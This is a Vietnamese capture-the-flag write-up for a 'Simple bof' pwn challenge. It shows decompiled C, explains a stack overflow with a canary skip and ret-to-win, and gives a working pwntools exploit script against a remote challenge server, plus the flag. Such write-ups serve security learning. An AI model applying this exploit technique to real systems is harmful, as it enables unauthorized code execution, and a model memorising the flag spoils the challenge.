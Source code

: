 # Simple bof (pwn)

Check binary

<figure><img src="../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

Decompile bằng IDA

{% code lineNumbers="true" %}
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v5; // [rsp+8h] [rbp-98h] BYREF
  int i; // [rsp+Ch] [rbp-94h]
  _QWORD v7[16]; // [rsp+10h] [rbp-90h] BYREF
  __int64 v8; // [rsp+90h] [rbp-10h]
  unsigned __int64 v9; // [rsp+98h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  v8 = 1LL;
  printf("First useful number: 0x%x\n", &locret_40101A);
  printf("Second useful number %p\n", win);
  puts("How many magic numbers do you wanna tell me?");
  __isoc99_scanf("%d", &v5);
  puts("Ok.");
  for ( i = 0; i < v5; ++i )
  {
    printf("%d. ", (unsigned int)(i + 1));
    __isoc99_scanf("%lu", &v7[i]);
  }
  if ( v8 != 0xDEADBEEFDEADBEEFLL )
  {
    puts("Thanks a lot.");
    exit(0);
  }
  puts("Don't forget the canary.");
  return __readfsqword(0x28u) ^ v9;
}
```
{% endcode %}

Bài này không kiểm tra size ở line 15, nếu ta nhập số >16 -> ghi đè ra ngoài biến array v7 -> overflow

Qua quá trình debug mình thấy:

\+ biến v8 ở index 16

\+ stack canary ở index 17

\+ saved rip ở index 19 -> mình sẽ ghi đè thành địa chỉ của `ret` gadget ( leak ở line 12) -> rồi ghi đè địa chỉ hàm win ở index 20 ( bài này `no-pie` nên leak win không cần thiết lắm :))) ).

Script giải

```python
from pwn import *
from time import sleep
e=ELF("./simple_bof")
#p=e.process()
p=remote("45.122.249.68",10018)
#context.log_level='debug'
#gdb.attach(p,gdbscript="\nb *main+307")
p.recvuntil(b"First useful number: ")
sleep(1)
leak=p.recvuntil(b"\n").rstrip().decode()
sleep(1)
leak=int(leak,16)
log.info(hex(leak))
p.sendline(b"21")
sleep(1)
#pause()
for i in range(21):
    if i==16:
        p.sendline(str(0xDEADBEEFDEADBEEF).encode())
    #elif i==17:
    #    p.sendline('-'.encode())
    elif i==19:
        p.sendline(str(leak).encode())
    elif i==20:
        p.sendline(str(e.sym["win"]).encode())
    else:
        p.sendline('-'.encode())
    sleep(1)
p.interactive()

```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Flag: `W1{sUp3r_e4sY_b0f_74f2f624d3c92c1d739b6b0b238c0321}`





